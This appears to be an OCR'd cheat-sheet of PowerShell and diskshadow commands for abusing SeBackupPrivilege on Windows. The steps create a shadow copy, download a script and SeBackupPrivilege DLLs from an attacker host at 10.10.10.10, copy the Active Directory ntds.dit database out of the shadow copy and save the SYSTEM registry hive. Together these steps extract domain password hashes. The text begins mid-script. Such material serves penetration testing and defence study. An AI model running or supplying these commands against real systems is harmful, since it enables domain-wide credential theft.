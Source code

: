         set verbose on  
        begin backup  
        add volume c: alias mydrive  
        
        create  
        
        expose %mydrive% w:  
        end backup  
        #}
        
        # TRANSFERT TO TARGET SYSTEM
        Invoke-WebRequest -Uri "http://10.10.10.10/script.txt" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\script.txt"
        
        # EXEC DISKSHADOW
        cd C:\windows\system32\spool\drivers\color
        diskshadow.exe -s script.txt
        
        # CHECK THE CAB
        ls
        -a----         6/7/2020   9:31 PM            743 example.cab
        
        # IMPORTING DLL SeBackupPrivilegeCmdLets & SeBackupPrivilegeUtils
        Invoke-WebRequest -Uri "http://10.10.10.10/SeBackupPrivilegeCmdLets.dll" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\SeBackupPrivilegeCmdLets.dll"
        Invoke-WebRequest -Uri "http://10.10.10.10/SeBackupPrivilegeUtils.dll" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\SeBackupPrivilegeUtils.dll"
        Import-Module .\SeBackupPrivilegeCmdLets.dll
        Import-Module .\SeBackupPrivilegeUtils.dll
        
        # CHECK MODULE
        get-help SeBackupPrivilege
        Name                              Category  Module                    Synopsis
        ----                              --------  ------                    --------
        Get-SeBackupPrivilege             Cmdlet    SeBackupPrivilegeCmdLets  ...
        Set-SeBackupPrivilege             Cmdlet    SeBackupPrivilegeCmdLets  ...
        Copy-FileSeBackupPrivilege        Cmdlet    SeBackupPrivilegeCmdLets  ...
        
        #Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
        Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\Windows\temp\ntds.dit -Overwrite
        
        # Dump ACTUAL SYSTEM hive
        reg.exe save HKLM\SYSTEM c:\temp\system.hive 
        